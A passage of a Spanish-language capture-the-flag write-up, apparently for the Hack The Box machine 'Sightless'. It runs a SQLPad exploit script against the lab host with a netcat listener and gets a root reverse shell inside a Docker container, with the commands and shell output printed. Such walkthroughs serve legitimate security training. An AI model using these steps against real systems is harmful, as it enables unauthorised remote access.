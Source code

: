 También verificamos el uso del exploit, en el cual nos indica que nos pongamos en escucha con `nc` por un puerto y al ejecutar el exploit recibiremos en principio una Reverse Shell hacía la máquina.

<figure><img src="../../../../.gitbook/assets/3742_vmware_UyFsoT6KiY.png" alt=""><figcaption></figcaption></figure>

Tal y como nos indica el PoC del exploit, nos pondremos en escucha por un puerto.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Le daremos permisos de ejecución al exploit, procederemos a utilizarlo proporcionándole la URL del SQLPad ([http://sqlpad.sightless.htb](http://sqlpad.sightless.htb)) y nuestra dirección y el puerto donde estamos escuchando con `nc`.

```bash
❯ chmod +x exploit.py
❯ python exploit.py http://sqlpad.sightless.htb/ 10.10.16.5 443
Response status code: 400
Response body: {"title":"connect ECONNREFUSED 127.0.0.1:3306"}
Exploit sent, but server responded with status code: 400. Check your listener.
```

Verificamos nuevamente que hemos recibido correctamente acceso a la máquina, pero al parecer no nos encontramos en la máquina principal. Parece ser que nos encontramos como usuario `root` en una especia de máquina de Docker que es la que levantaba el servicio de `SQLPad`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.32] 59752
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@c184118df0a6:/var/lib/sqlpad$ whoami
root
root@c184118df0a6:/var/lib/sqlpad$ hostname -I
172.17.0.2 
```
